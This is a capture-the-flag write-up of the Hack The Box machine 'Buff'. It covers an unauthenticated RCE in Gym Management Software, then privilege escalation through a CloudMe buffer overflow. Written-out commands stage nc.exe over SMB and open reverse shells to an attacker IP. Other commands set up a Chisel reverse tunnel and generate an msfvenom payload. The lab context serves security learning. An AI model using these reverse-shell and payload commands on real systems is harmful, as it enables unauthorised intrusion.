

## TL;DR

## Recon
#### Ping


We have a TTL of 127, which means it's likely a Windows machine.
#### Nmap
###### First 1000 TCP ports


###### Web Server on port 8080


## Enumeration

After enumerating every page on the website


We found this framework : "Gym Management Software 1.0" in the contact.php page
After some Googling, turns out it's vulnerable to an unauthenticated RCE
## Exploitation

Using the [PoC from exploit DB](https://www.exploit-db.com/exploits/48506) we could get a remote shell


after getting this non interactive shell, we have to transfer nc.exe in order to get a fully interactive shell, we use an smb share to get that done.

```plain
## On attacker host
mkdir /tmp/smbshare/
cp nc.exe /tmp/smbshare/
sudo impacket-smbserver share -smb2support /tmp/smbshare/ 

## On Windows victim machine
copy \\$IP\share\nc.exe
```

After successfully copying the file, we can open a netcat listener and get a shell 

```plain
#### On attacker host
nc -lvnp $PORT
#### On Windows victim 
.\nc.exe $IP $PORT -e cmd.Exe
```

#### User Flag


#### Root Flag

Enumerating every folder in shaun's home directory, i found this : 

 
 
 Which is a file storage service that offers cloud storage, file synchronization and client software.
 After some googling, turns out there's a buffer overflow vulnerability in this version 1.11.2
 

the PoC available for this exploit use Python, which is not installed on the victim windows machine, let's try and redirect the service back to our attacker machine 
Figuring out which prt it's using, i used netstat


It's using port 8888 (3306 is MySQL)
We could use SSH if we had credentials to shaun, but unfortunately we don't 

```bash
ssh -L 8888:127.0.0.1:8080 shaun@buff.htb 
```

Instead let's use a tool called [Chisel](https://github.com/jpillora/chisel) to create a tunnel
Just like before, we need to transfer the executable to the windows machine, we'll use the same smb share as before

```plain
#### On ATTACKER
./chisel server -p 8000 --reverse

#### On VICTIM
.\chisel.exe client 10.10.16.5:8000 R:8888:localhost:8888
```


After reading about the exploit, it's a buffer overflow, but we need to put in out own payload instead of the one in the [PoC found on exploit DB](https://www.exploit-db.com/exploits/48389)
Let's generate a payload using MSFVenom, a reverse tcp shell on port 1338

```shell
msfvenom -p windows/exec CMD='C:\xampp\htdocs\gym\upload\nc.exe 10.10.16.5 1338 -e powershell' -b '\x00\x0A\x0D' -f python

#### Note: Given the four-byte addresses and 
#### references to ESP and EIP (as opposed to RSP
#### and RIP), this is a 32-bit program.
```


Upon executing the script, we get a session as Administrator 
